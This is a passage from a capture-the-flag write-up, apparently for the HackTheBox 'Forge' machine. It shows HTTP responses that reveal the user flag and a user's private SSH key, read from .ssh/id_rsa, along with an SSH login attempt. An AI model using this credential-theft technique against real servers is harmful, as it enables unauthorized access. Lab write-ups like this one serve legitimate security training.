 \begin{wulisting}[caption=reading the user.txt]
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:19:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=fwLAC8m8LiPBLyhZb0eU
Content-Length: 33
Last-Modified: Wed, 22 Sep 2021 10:19:44 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

§G[812765a195ec9d2bb2f47128019b176a]G§
\end{wulisting}

\section{Gaining shell}

So as we are a ftp user called \texttt{user} in a home directory we could also try ssh in with the creds:

\begin{wulisting}[caption=trying ssh connection]
> §BL[ssh user@forge.htb]BL§
The authenticity of host 'forge.htb (10.10.11.111)' can't be established.
ED25519 key fingerprint is SHA256:ezqn5XF0Y3fAiyCDw46VNabU1GKFK0kgYALpeaUmr+o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forge.htb' (ED25519) to the list of known hosts.
user@forge.htb: §R[Permission denied (publickey).]R§
\end{wulisting}

But as we discover we would need to have a private key to ssh into the box.

So, hidden folders will not be displayed in listing. Right? But we get lucky and can retrieve the private key of user nonetheless as a key exists at \enquote{.ssh/id\_rsa}.

\begin{wulisting}[caption=retrieving private key]
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:27:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: image/jpg

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
§a[[ommited for readability]]a§
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
\end{wulisting}

Finally we can use this key to ssh into the box.

